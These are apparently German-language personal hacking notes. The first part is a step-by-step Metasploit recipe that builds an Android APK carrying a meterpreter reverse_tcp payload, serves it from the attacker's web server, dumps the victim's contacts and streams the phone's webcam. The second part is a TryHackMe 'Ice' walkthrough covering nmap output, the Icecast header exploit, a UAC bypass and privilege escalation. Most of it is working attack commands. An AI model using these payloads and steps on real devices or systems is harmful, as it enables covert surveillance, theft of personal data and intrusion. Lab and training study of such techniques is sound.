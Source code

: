 # android hacking with metasploit kali 
#### datum: 13.05.2020
[link](https://www.youtube.com/watch?v=YRm-St0bJhU)
---
###
> 1. es wird eine android applikation erstellt, mit einer einfachen view 
> 2. msfvenom (framework) 
> 2.1. msfpayload
> 2.2. msfencode 	

```
0. [new terminal 0]
1. [0] ifconfig 
2. [0] msfvenom -help 
3. [0] msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.23 LPORT=4444 R > /var/www/html/androidApp.apk
4. [0] service apache2 status 
5. [0] msfconsole 
6. [0] use exploit/mulit/handler
7. [0] set payload android/meterpreter/reverse-tcp 
8. [0] show options
9. [0] set LHOST 192.168.1.23 [ip-Virtual Box]
10. [0] show options
11. [0] exploit 
12. [0] background
13. [0] sessions
14. [0] sessions -i 1
15. [0] help
16. [0] app_list
17. [0] dump_contacts
18. [new terminal 1]
19. [1] cat contacts dump 20190915183350.txt
20. [0] webcam_list
21. [0] background
22. [0] exploit (muli/handler)
23. [0] sessions
24. [0] exploit
25. [0] background
26. [0] sessions
27. [0] sessions -i 8
28. [0] help
29. [0] webcam_list
30. [0] shell
31. [0] ls
32. [0] whoiam
33. [0] pwd
```
---
### prof. 
> snap-shot mit der handykamera // stream 
```
0. use exploit/multi/handler
1. set payload android/meterpreter/reverse_tcp
2. set lhost 192.168.0.132
3. show options 
4. exploit 
5. webcam_steam -h // get help
6. webcam_list
7. webcam_stream -d 5 -i 1 // d (duration aufnahmezeit/ index of webcam)
8. [rage quit]
9. cd /home/kali/
10. msfconsole
11. [alles wie vorher]
12. webcam_stream -d 5 -i 1 
13. cp [daten] /var/www/html 
```

---
# ice 
[link room tryhackme]()

## task1 
verbinden

## task 2
> nmap -sC -sV -oN ice.nmap 10.10.87.148
### ergebnis
```
# Nmap 7.80 scan initiated Wed May 13 10:19:06 2020 as: nmap -sC -sV -oN ice.nmap 10.10.87.148
Nmap scan report for 10.10.87.148
Host is up (0.074s latency).
Not shown: 988 closed ports
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2020-05-13T08:20:13+00:00; -2s from scanner time.
5357/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
8000/tcp  open  http               Icecast streaming media server
|_http-title: Site doesn't have a title (text/html).
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
49160/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: DARK-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h14m57s, deviation: 2h30m00s, median: -2s
|_nbstat: NetBIOS name: DARK-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:73:37:13:4c:70 (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Dark-PC
|   NetBIOS computer name: DARK-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-05-13T03:20:07-05:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-05-13T08:20:07
|_  start_date: 2020-05-13T08:13:20

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 13 10:21:15 2020 -- 1 IP address (1 host up) scanned in 129.06 seconds
```
1. **3389** <br>
[https://www.cvedetails.com/](https://www.cvedetails.com/)
2. **execute code overflow**
3. **CVE-2004-1561**
> search icecast
> use 0
6. **RHOSTS** 
> setg rhosts 10.10.87.148
7. Video 
[https://www.youtube.com/watch?v=qUQhCrpBEK4](https://www.youtube.com/watch?v=qUQhCrpBEK4)
> use exploit/windows/http/icecast_header <br>
> set rhosts 10.10.87.148 <br>
> exploit <br>
> sessions  <br>
> use /post/multi/recon/local_exploit_suggester <br>
> set sessions 1 <br>
> exploit <br>
> use windows/local/bypassuac_eventvwr<br>
> set session 7 <br>
> set lhost 10.10.83.15 <br>
> getprivs <br>
> migrate -N spoolsv.exe<br>
---
10.10.207.74
### next try

#### lhosts vpn ip adresse 
[https://www.youtube.com/watch?v=490l9BoUGD4](https://www.youtube.com/watch?v=490l9BoUGD4)
> search icecast <br>
> searchsploit icecast
> zwischenablage 2.0.1 (Windows x86) - Header Overwrite (Metasploit) <br>
> internet <br>
> search uac<br>
> use 4<br>
> options <br>
> set payload windows/meterpreter/reverse_tcp<br>
> set lhosts 10.10.207.74<br>
> 